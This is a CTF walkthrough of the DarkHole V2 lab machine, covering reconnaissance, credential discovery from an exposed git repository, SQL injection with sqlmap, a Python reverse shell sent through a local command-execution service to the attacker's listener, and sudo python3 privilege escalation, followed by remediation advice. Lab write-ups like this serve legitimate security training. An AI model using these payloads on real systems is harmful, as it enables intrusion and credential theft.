# DarkHole V2 - CTF Walkthrough

## Overview
**DarkHole V2** is a vulnerable machine designed for penetration testing practice. This walkthrough demonstrates a complete compromise from initial reconnaissance to root access.

**Difficulty:** Intermediate  
**Target IP:** 192.168.77.131  
**Attacker IP:** 192.168.77.130  

---

## Table of Contents
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Flags](#flags)

---

## Reconnaissance

### Network Discovery
Using `netdiscover` to identify live hosts on the network:

```bash
netdiscover -r 192.168.77.0/16
```

**Result:** Target identified at `192.168.77.131`



---

## Enumeration

### Port Scanning
Running `nmap` to identify open services:

```bash
nmap -sV -A -p- -T4 192.168.77.131
```

**Open Ports:**
- **22/tcp** - SSH (OpenSSH 8.2p1 Ubuntu)
- **80/tcp** - HTTP (Apache httpd 2.4.41)

**Key Finding:** Git repository discovered at `http://192.168.77.131/.git/`



### Web Application Analysis

The application "DarkHole V2" features a landing page with "The Spark Diamond" theme.



Login page discovered at `/login.php`:



### Git Repository Exposure

Exposed `.git` directory listing found:



Downloaded the git repository using `wget`:

```bash
wget -r http://192.168.77.131/.git/
```



### Analyzing Git History

Examined git commit history:

```bash
git log
```



Inspecting a specific commit revealed **hardcoded credentials**:

```bash
git show a4d900a8d85e8938d3601f3cef113ee293028e10
```

**Discovered Credentials:**
- Email: `lush@admin.com`
- Password: `321`



---

## Exploitation

### Authentication Bypass

Successfully logged in using the discovered credentials:



The dashboard reveals user information for "Jehad Alqurashi" (Web Designer & Developer).



Session cookie captured:



### SQL Injection

Testing the application for SQL injection vulnerabilities using `sqlmap`:

```bash
sqlmap -r sql --dbs --batch
```

**Database Discovered:** `darkhole_2`



Dumping database tables:

```bash
sqlmap -r sql -D darkhole_2 --tables --dump
```

**SSH Credentials Extracted:**
- User: `jehad`
- Password: `fool`



### SSH Access

Connected via SSH:

```bash
ssh jehad@192.168.77.131
```



### Initial Enumeration as jehad

Listed files in jehad's home directory:

```bash
ls -la
```

**Files discovered:**
- `.bash_history` (readable)
- `.bashrc`
- `.profile`
- `.ssh/`



Examined jehad's bash history:

```bash
cat .bash_history
```

**Key Finding:** Discovered evidence of a local web service running on `localhost:9999` with command execution capability.



Explored other home directories:

```bash
ls /home
```

**Result:** Found three users: `jehad`, `lama`, `losy`

### Local Web Service Exploitation

Tested the local web service for command execution:

```bash
curl "http://127.0.0.1:9999/?cmd=id"
```

**Result:** The service responded with user information, confirming the service was running as user `losy` and had Remote Command Execution (RCE) capability.



Set up a netcat listener on the attacking machine:

```bash
nc -nlvp 4444
```

Executed a Python reverse shell payload through the local web service:

```bash
curl 'http://127.0.0.1:9999/?cmd=python3%20-c%20"import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.77.130\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")"'
```

**Result:** Successfully obtained a reverse shell as user `losy`.



Retrieved **user flag**:

```bash
cd
ls -la
cat user.txt
```

**User Flag:** `DarkHole{'This_is_the_life_man_better_than_a_cruise'}`



---

## Privilege Escalation

### Privilege Escalation (losy → root)

Examined losy's bash history:

```bash
cat .bash_history
```

**Found Password:** `gang` (losy's password stored in command history)



Checked sudo privileges:

```bash
sudo -l
```

**Finding:** User `losy` can run `/usr/bin/python3` as root without password.



#### Exploitation

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

### Root Access

Obtained root shell:



Retrieved **root flag**:

```bash
cat /root/root.txt
```

**Root Flag:** `DarkHole Legend`



---

## Flags

| Flag | Location | Value |
|------|----------|-------|
| User Flag | `/home/losy/user.txt` | `DarkHole{'This_is_the_life_man_better_than_a_cruise'}` |
| Root Flag | `/root/root.txt` | `DarkHole Legend` |

---

## Attack Chain Summary

```
1. Network Discovery (netdiscover)
   ↓
2. Port Scanning (nmap)
   ↓
3. Git Repository Exposure
   ↓
4. Credential Discovery (git history)
   ↓
5. Web Application Login
   ↓
6. SQL Injection (sqlmap)
   ↓
7. SSH Access (user: jehad)
   ↓
8. Enumeration as jehad (ls -la, cat .bash_history)
   ↓
9. Local Web Service Discovery (localhost:9999)
   ↓
10. RCE via Local Web Service (reverse shell as losy)
   ↓
11. Enumeration as losy (cat .bash_history - found password "gang")
   ↓
12. Privilege Escalation (sudo python3)
   ↓
13. Root Access & Flag Capture
```

---

## Vulnerabilities Identified

1. **Exposed Git Repository** - Sensitive information disclosure
2. **Hardcoded Credentials** - Credentials stored in version control
3. **SQL Injection** - Unauthenticated database access
4. **Local Web Service with RCE** - Unauthenticated command execution on localhost:9999 running as losy user
5. **Sensitive Information in Bash History** - Losy's password exposed in bash command history
6. **Sudo Misconfiguration** - Unrestricted python3 execution as root

---

## Remediation

- Remove `.git` directory from production web servers
- Never commit credentials to version control
- Implement input validation and parameterized queries
- Secure or disable local development services in production
- Implement proper authentication and authorization for internal services
- Use secrets management solutions
- Configure bash to not store sensitive commands in history (`HISTCONTROL`, `HISTIGNORE`)
- Apply principle of least privilege for sudo permissions
- Regular security audits and penetration testing

---

## Tools Used

- `netdiscover` - Network discovery
- `nmap` - Port scanning and service enumeration
- `wget` - Repository downloading
- `git` - Version control analysis
- `sqlmap` - SQL injection exploitation
- `ssh` - Remote access
- `curl` - Local web service exploitation
- `netcat` - Reverse shell listener
- `python3` - Privilege escalation

---

## Author
**Your Name**  
Date: February 10, 2026

## Disclaimer
This walkthrough is for educational purposes only. Only perform penetration testing on systems you own or have explicit permission to test.

---

## Acknowledgments
- DarkHole V2 VM creators
- The cybersecurity community

**Happy Hacking! 🚀**
